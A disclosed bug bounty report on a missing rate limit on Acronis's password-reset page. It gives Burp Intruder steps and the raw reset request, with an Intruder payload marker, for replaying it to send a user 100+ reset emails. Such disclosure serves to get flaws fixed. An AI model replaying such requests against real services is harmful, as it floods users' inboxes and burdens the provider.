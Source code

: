 # No Rate Limit On Forgot Password Page

## Report Details
- **Report ID**: 1245529
- **URL**: https://hackerone.com/reports/1245529
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-27T06:08:22.039Z
- **Disclosed**: 2021-07-09T13:25:32.949Z

## Reporter
- **Username**: bcbc04131e9a7775cc46c97
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
A little bit about Rate Limit:
A rate limiting algorithm is used to check if the user session (or IP-address) has to be limited based on the information in the session cache.
In case a client made too many requests within a given time frame, HTTP-Servers can respond with status code 429: Too Many Requests.


## Steps To Reproduce
[add details for how we can reproduce the issue]
 
Visit https://account.acronis.com/
Login and then click on forgot password 
Enter your mail and click on Forgot Password

Step 2- Intercept This Request In Burp And Forward Till You Found Your NumberStep 3- Now Send This Request To Intruder And Repeat It as many as time By Fixing Any Arbitrary Payload Which Doesn't No Effect Request I Choose Accept-Language: en-US,en;q=0.$9$

POST /v2/auth/password/reset HTTP/1.1
Host: account.acronis.com
Connection: close
Content-Length: 36
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: https://account.acronis.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://account.acronis.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.2.1812368333.1624773555; _gid=GA1.2.1077432380.1624773555; _gat_UA-149943-47=1

{"email":"fexec99607@paseacuba.com"}

Step 3- Now Send This Request To Intruder And Repeat It as many as time By Fixing Any Arbitrary Payload Which Doesn't No Effect Request I Choose Accept-Language: en-US,en;q=0.$9$

POST /v2/auth/password/reset HTTP/1.1
Host: account.acronis.com
Connection: close
Content-Length: 36
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: https://account.acronis.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://account.acronis.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.$9$
Cookie: _ga=GA1.2.1812368333.1624773555; _gid=GA1.2.1077432380.1624773555; _gat_UA-149943-47=1

{"email":"fexec99607@paseacuba.com"}

Step 4 - See You Will Get 200, 204 ok Status Code & 100 + Email In Your INBOX
See It Is Resulting In Mass Mailing Or Email Bombing To Your Users Which Is Bad For Business Impact.

## Impact

If You Are Using Any Email Service Software API Or Some Tool Which Costs You For Your Email This Type Of Attack Can Result in You In Financial Lose And It Can Also Slow Down Your Services It Can Take Bulk Of Storage In Sent Mail Although If Users Are Affected By This Vulnerability They Can Stop Using Your Services Which Can Lead To Business Risk

## Attachments
- Capture.PNG
- bandicam_2021-06-27_11-29-32-427.mp4
- bandicam_2021-06-27_11-37-32-330.mp4
